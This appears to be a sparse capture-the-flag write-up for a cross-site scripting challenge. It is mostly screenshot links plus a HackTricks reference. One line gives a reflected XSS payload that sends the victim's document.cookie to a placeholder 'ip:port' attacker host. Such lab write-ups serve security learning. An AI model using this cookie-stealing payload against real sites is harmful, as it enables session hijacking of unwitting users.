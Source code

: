![image](https://user-images.githubusercontent.com/62753044/232711998-edced6fe-7629-4de8-a426-73bfe04815c2.png)

![image](https://user-images.githubusercontent.com/62753044/232712034-baf6d93f-6e4c-429c-adeb-bbf8b82fc5f7.png)

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

![image](https://user-images.githubusercontent.com/62753044/232712078-222e1ef4-6145-425f-92ba-4073675ae682.png)

![image](https://user-images.githubusercontent.com/62753044/232712097-f67a72d8-c01e-42bc-86d6-be2e5bcb4409.png)

1.

![image](https://user-images.githubusercontent.com/62753044/232712138-2c18f3cb-31a8-47d6-8b47-5cc5c087123d.png)

![image](https://user-images.githubusercontent.com/62753044/232712159-3193461d-008b-40ab-b15f-3cedb5c4579c.png)

2.

![image](https://user-images.githubusercontent.com/62753044/232712381-cd35da09-ebbb-44cf-a024-2d6d6022a184.png)

![image](https://user-images.githubusercontent.com/62753044/232712400-d4f2e578-3f12-4e8c-b9cd-43d80f30c9a2.png)

![image](https://user-images.githubusercontent.com/62753044/232712433-9dd48cfb-931b-4f59-8036-88e63ca7e4bd.png)

![image](https://user-images.githubusercontent.com/62753044/232712447-ecffa37a-bf17-40b1-96e0-1f7e88076b6e.png)

![image](https://user-images.githubusercontent.com/62753044/232712544-0b521df6-efed-4225-ab6e-c7d2bd6d2b7a.png)

http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>new Image().src="http://ip:port/?c="%252bencodeURI(document.cookie);</script>

![image](https://user-images.githubusercontent.com/62753044/232797950-f3dba4fc-a7ca-432e-8ed3-b663991e2130.png)


![image](https://user-images.githubusercontent.com/62753044/232712723-a57e8802-4adc-4f30-9940-aec835760cd1.png)

ASCII

![image](https://user-images.githubusercontent.com/62753044/232712765-1d34d650-8401-4bff-85fb-4de18161f590.png)


